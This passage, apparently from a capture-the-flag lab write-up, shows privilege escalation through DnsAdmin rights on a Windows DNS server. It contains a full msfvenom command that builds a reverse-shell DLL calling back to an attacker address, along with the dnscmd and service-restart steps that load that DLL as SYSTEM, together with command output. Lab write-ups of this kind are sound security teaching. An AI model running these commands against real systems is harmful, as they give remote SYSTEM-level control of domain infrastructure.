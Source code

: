 ### Exploiting DnsAdmin privileges
The first thing we need to do, is generate a malicious dll, which will give us arbitrary code-execution in the context of SYSTEM.
```bash
root@silence:~# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=443 -f dll > share/evil.dll
```
For this purpose, we will simply use msfvenom to generate us a shell.

```bash
root@silence:~/share# smbserver.py -smb2support share $(pwd)
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Now, we serve the dll with impacket’s smbserver.py.

```console
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd 10.10.10.169 /config /serverlevelplugindll \\10.10.14.24\share\evil.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```
We have now configured dns to use our evil dll instead. We can verify that the command executed successfully, be querying the registry property:
```console
*Evil-WinRM* PS C:\Users\ryan\Documents> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

ServerLevelPluginDll : \\10.10.14.24\share\evil.dll
PSPath               : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters\
PSParentPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS
PSChildName          : Parameters
PSDrive              : HKLM
PSProvider           : Microsoft.PowerShell.Core\Registry
```
We indeed have changed the ServerLevelPluginDll. Let us restart dns now and check if we get a shell.

```console
*Evil-WinRM* PS C:\Users\ryan\Documents> cmd /c sc stop dns
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Documents> cmd /c sc start dns
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
```